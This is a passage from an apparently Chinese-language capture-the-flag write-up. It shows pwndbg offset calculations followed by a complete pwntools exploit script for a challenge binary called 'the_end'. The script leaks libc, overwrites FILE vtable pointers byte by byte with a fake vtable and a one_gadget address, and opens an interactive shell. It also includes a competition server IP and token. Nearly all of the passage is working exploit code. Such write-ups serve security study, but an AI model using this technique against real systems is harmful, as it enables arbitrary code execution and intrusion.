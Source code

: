 ```
$10 = 0x7f41d9c02588
pwndbg> distance 0x7f41d9c02588 0x7f41d983d000
0x7f41d9c02588->0x7f41d983d000 is -0x3c5588 bytes (-0x78ab1 words)
pwndbg> distance  0x7f41d9c025e0 0x7f41d983d000
0x7f41d9c025e0->0x7f41d983d000 is -0x3c55e0 bytes (-0x78abc words)
```

最终的利用脚本如下：

```
from pwn import *
context.log_level="debug"

libc=ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
# p = process('the_end')
p = remote('127.0.0.1',1234)

rem = 0
if rem ==1:
    p = remote('150.109.44.250',20002)
    p.recvuntil('Input your token:')
    p.sendline('RyyWrOLHepeGXDy6g9gJ5PnXsBfxQ5uU')

sleep_ad = p.recvuntil(', good luck',drop=True).split(' ')[-1]

libc_base = long(sleep_ad,16) - libc.symbols['sleep']
one_gadget = libc_base + 0xf02b0
vtables =     libc_base + 0x3C56F8

fake_vtable = libc_base + 0x3c5588
target_addr = libc_base + 0x3c55e0

print 'libc_base: ',hex(libc_base)
print 'one_gadget:',hex(one_gadget)
print 'exit_addr:',hex(libc_base + libc.symbols['exit'])

# gdb.attach(p)

for i in range(2):
	p.send(p64(vtables+i))
	p.send(p64(fake_vtable)[i])


for i in range(3):
    p.send(p64(target_addr+i))
    p.send(p64(one_gadget)[i])

p.sendline("exec /bin/sh 1>&0")

p.interactive()
```


